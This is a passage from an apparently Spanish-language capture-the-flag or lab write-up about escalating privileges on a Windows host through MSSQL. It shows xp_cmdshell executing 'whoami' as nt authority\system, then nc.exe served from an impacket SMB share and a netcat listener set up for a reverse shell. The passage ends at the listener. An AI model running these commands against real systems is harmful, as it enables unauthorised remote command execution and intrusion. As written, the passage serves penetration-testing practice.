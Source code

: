 Vemos varias cosas interesantes, pero entre ellas veremos lo siguiente:

```
xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
```

Con esto lo que podemos hacer es ejecutar comando de forma `privilegiada` por lo que ejecutaremos para probar un `whoami`:

```powershell
EXEC xp_cmdshell 'whoami';
```

Info:

```
output                
-------------------   
nt authority\system   

NULL 
```

Veremos que esta funcionando de forma correcta, por lo que ahora nos vamos a generar una `reverse shell` con `nc.exe` mediante un servidor de `SMB` que nos vamos a montar.

## Escalate Privileges

Vamos abrir en nuestro `host` un servidor de `SMB` de la siguiente forma:

```shell
cp /usr/share/windows-binaries/nc.exe .
```

Una vez copiado nuestro binario de `netcat` vamos abrirnos el servidor de `SMB`:

```shell
impacket-smbserver -smb2support kali .
```

Info:

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

Ahora vamos a ejecutar ese `nc.exe` desde nuestro servidor de `SMB` y generarnos una `reverse shell` como el usuario `administrador` ya que se esta ejecutando con privilegios elevados.

Vamos a ponernos a la escucha de la siguiente forma:

```shell
nc -lvnp <PORT>
```
